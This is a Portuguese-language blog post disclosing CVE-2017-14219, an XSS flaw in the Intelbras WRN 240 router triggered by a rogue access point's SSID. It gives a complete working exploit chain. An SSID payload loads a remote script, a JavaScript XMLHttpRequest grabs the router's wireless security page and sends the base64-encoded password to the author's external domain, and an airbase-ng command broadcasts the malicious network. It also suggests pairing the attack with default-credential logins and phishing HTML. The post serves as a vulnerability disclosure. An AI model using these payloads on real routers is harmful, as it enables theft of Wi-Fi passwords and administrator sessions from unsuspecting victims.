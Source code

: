```yaml
---
title: "[CVE-2017-14219] XSS NO ROTEADOR INTELBRAS WRN 240 - [PT-BR]"
layout: post
date: '2017-09-07 13:28:24'
description: 'Intelbras exploit: Obtendo senha Wireless e sessão administrador sem estar conectado na mesma rede'
image: '/assets/images/posts/xxs/print4.png'
tags:
- cve
- poc
author: "f0lds"
---
```


[CVE-2017-14219](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-14219){:target="_blank" rel="noopenner noreferrer"}

[Exploit](https://www.exploit-db.com/exploits/42633/){:target="_blank" rel="noopenner noreferrer"}

### Como começou:

Já faz algum tempo que venho tentando ownar meu roteador, motivos? Só falta do que fazer, e as vezes falta de internet também, isso foi de tentativas de upload com firmeware modificado à tentaticas de inserir códigos na página alterando o ID da wireless, até que um dia li em um lugar sobre xss em roteadores pelo ssid de um outro AP, e tive minha idéia reforçada pelo Caio Luders após ler um [tópico](https://medium.com/@caioluders/roteador-tc7337-dns-poisoning-atrav%C3%A9s-de-xss-1a92ed254120) publicado pelo mesmo sobre isso.

### O XSS

A vulnerabilidade está presente no Roteador Intelbras Wireless N 150Mbps WRN 240 (única versão testada por mim até agora), na página de busca por roteadores para usar como ponte.

```
URL: "http://10.0.0.1/userRpm/popupSiteSurveyRpm.htm"
```

![Passo 1]({{ site.url }}/assets/images/posts/xxs/print1.png)

O roteador recebe o SSID das redes e em seguida mostra na tela sem nenhum tipo filtro ou sanitize, obedecendo somente ao limite de 32 caracteres do wireless. A página vulnerável não está ativa por padrão no roteador, o usuário (vítima) teria que ativá-la nas configurações do AP, mas por sorte (nossa é claro), só precisamos que o usuário logado acesse o html onde o sistema mostra as redes wireless que estão ao alcance. Ação que não seria difícil para alguém esperto.

![Passo 2]({{ site.url }}/assets/images/posts/xxs/print2.png)

Para subir o AP ultilizei outro roteador que eu tinha, mas nada que um airbase-ng não resolvesse. Alterei meu SSID para ```<script>alert('xss')</script>```, uma tentativa que não obteve sucesso, mas alterei novamente para ```</script><script>alert('xss')``` onde a tag encerraria o primeiro ```</script>``` e iniciaria um novo, aproveitando da tag ```<script>``` original no fim do arquivo.

![Passo 3]({{ site.url }}/assets/images/posts/xxs/print3.png)

Agora que temos nosso xss vamos para a parte que realmente interessa. Obedecendo o limite de 32 caracteres do SSID wireless, uma maneira de injetar códigos longos na página seria importando de outro lugar, então alterei o SSID para ```</script><script src='//elb.me'>```. "elb.me" é o meu domínio que estou ultilizando para salvar os payloads.

Sabemos que para acessar a index de uma página não necessáriamente precisa do /index.??? no final, então adicionei meu script na index do "elb.me". Em uma técnica de roubo de cookies, costuma-se usar um script em php que pega o que for passado por GET e salva em um arquivo de log, não será muito diferente disso o que vamos fazer.

O script em PHP eu configurei em ```https://elb.me/cookie.php?ck="``` os logs ficam salvos em ```https://elb.me/cookie.txt```

O roteador salva a senha em um ajax localizado na página ```http://10.0.0.1/userRpm/WlanSecurityRpm.htm``` só precisamos da source dessa página para obter as credenciais. Na index de "elb.me" inseri um script em XMLHttpRequest, que me permite solicitar a source dessa página e enviar para nosso PHP receptor.

```
//Script feito com a ajuda do Luan Herrera
var rawFile = new XMLHttpRequest();
rawFile.onreadystatechange = function() {
       alert(rawFile.responseText);
       var base64 = rawFile.responseText.split('>')[1].split("/SCRIPT")[0];
       //seleiciona a parte da página com as credenciais
       new Image().src="https://elb.me/cookie.php?ck="+btoa(base64);
       //envia as credenciais encodadas em base64
};
rawFile.open("GET", "http://10.0.0.1/userRpm/WlanSecurityRpm.htm", true);
//pega a source da página /popupSiteSurveyRpm.htm
rawFile.send();
```

Agora que temos nosso payload, basta suburmos um AP e esperar que alguém abra a página do roteador, ou podemos enviar o link de acesso direto ```"http://10.0.0.1/userRpm/popupSiteSurveyRpm.htm"```.

Testando na página obtive o seguinte resultado:

![Passo 4]({{ site.url }}/assets/images/posts/xxs/print4.png)

Nosso script funcionou :) Agora só precisamos ir na página onde os logs forma salvos, ```"https://elb.me/cookies.txt"```

![Passo 5]({{ site.url }}/assets/images/posts/xxs/print5.png)

E depois de decodarmoso base64 obtemos nossa senha.

![Passo 6]({{ site.url }}/assets/images/posts/xxs/print6.png)

### Dicas:

E se o administrador não estiver logado? Seria uma boa idéia mandar um post para a página de login com as credenciais padrões junto cm o html de phishing.

Subindo o AP com o airbase:
```
airbase-ng -e "</script><script src='//elb.me'>" -c 8 -v wlan0mon 
```

#### Contribuições:

Guilherme Assmann, Luan Herrera
